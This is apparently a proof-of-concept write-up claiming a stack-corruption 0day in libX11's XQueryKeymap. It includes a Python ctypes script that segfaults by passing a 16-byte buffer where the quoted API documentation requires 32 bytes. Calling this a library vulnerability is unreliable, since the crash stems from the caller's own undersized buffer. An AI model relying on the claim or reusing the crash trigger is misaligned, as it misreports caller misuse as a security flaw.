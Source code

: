 =================================================================== 

 X11/libX11.so.6 (XQueryKeymap) Stack corruption/Access violation [PoC+ Fuzzer]

    - 0day: 03/06/2017
    - Vulnerable (tested) library: libx11-6 / Version: 2:1.6.4-3
    - Debian package: libx11-6_1.6.4-3_amd64.deb (8ad41adbd147ffe4bf64c50efcac497b) 
    - Tested at: Intel/x86_64 - Debian 4.9.25-1 (stretch)

----------

The XQueryKeymap() function returns a bit vector for the logical state of the keyboard, where each bit set to 1 indicates that the corresponding key is currently pressed down. The vector is represented as 32 bytes. Byte N (from 0) contains the bits for keys 8N to 8N + 7 with the least-significant bit in the byte representing key 8N. 

    XQueryKeymap(display, keys_return)
       Display *display;
       char keys_return[32];

--------

#### Vulnerable code (example):

 ventiska% vim x11-segfault.py

    #!/usr/bin/python
    import ctypes as ct
    from ctypes.util import find_library
    x11 = ct.cdll.LoadLibrary(find_library("X11"))
    display = x11.XOpenDisplay(None)
    print "CT.C:", ct.c_char * 16
    keyboard = (ct.c_char * 16)()
    print "Display:", display
    x11.XQueryKeymap(display, keyboard)
    
 ventiska% python x11-segfault.py

    CT.C: <class '__main__.c_char_Array_16'>
    Display: 131127216
    zsh: segmentation fault (core dumped)  python x11-segfault.py
